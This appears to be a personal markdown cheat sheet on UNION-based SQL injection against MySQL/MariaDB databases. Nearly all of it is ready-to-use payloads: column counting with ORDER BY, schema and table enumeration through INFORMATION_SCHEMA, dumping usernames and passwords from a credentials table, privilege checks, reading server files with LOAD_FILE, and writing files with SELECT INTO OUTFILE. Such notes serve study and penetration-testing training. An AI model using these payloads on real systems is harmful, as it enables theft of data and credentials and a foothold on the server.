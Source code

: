 

## Enumeration 
- Insert code, if not crash = injection
  - parameter=value' 
  - parameter=value' ORDER BY [#_columns] = try/error
  
- find total columns: 
  - 'ORDER BY #-- - = until no output | error
  - 'UNION SELECT NULL,NULL,NULL-- -
  - find in which column, the result is displayed

- INFORMATION_SCHEMA
  - metadata about tables
  - Table SCHEMATA = all db on server
  - 'UNION SELECT 1,SCHEMA_NAME,3,4 FROM INFORMATION_SCHEMA.SCHEMATA-- -

- find name of db: 
  - 'UNION SELECT NULL,NULL,database()-- -
  - 
- find tables: 
  - TABLES: TABLE_SCHEMA,TABLE_NAME
  - 'UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4 FROM INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -

- find columns in table: 
  - COLUMNS: COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA
  - 'UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA FROM **information_schema.columns** WHERE table_name= 'Table name'-- -

- find data: 
  - 'UNION SELECT 1,GROUP_CONCAT(username,password),3,4 FROM dev.credentials-- -
  - 'UNION SELECT 1,username,password,3,4 FROM DB.table_name-- -

### Read/Write file
- Find user: 
  - USER(),CURRENT_USER(), user from mysql.user

- Find privileges:
  - 'UNION SELECT 1,super_priv,3,4 FROM mysql.user-- -
  - 'UNION SELECT 1,grantee,privilege_type,4 FROM information_schema.user_privileges-- -
    - WHERE grantee="'user'@'name'"
- LOAD_FILES()
  - 'UNION SELECT 1,LOAD_FILE('/path/to/file'),3,4-- -
  - ctr+U = view source code
    - /var/www/html/search.php = read source file
  
- Write: FILE enabled + secure_file_priv NOT enabled + write access on the server
  - SHOW VARIABLES LIKE 'secure_file_priv';
    - empty = write anywhere
    - NULL  = nowhere
  - UNION SELECT 1,variable_name,variable_value,4 FROM information_schema.global_variables where variable_name="secure_file_priv"
  - SELECT INTO OUTFILE = [FUnction](https://mariadb.com/kb/en/select-into-outfile/)
    - query SELECT INTO OUTFILE '/path/to/target';-- -
    - SELECT 'blablabla' INTO OUTFILE '/path/to/target'-- -
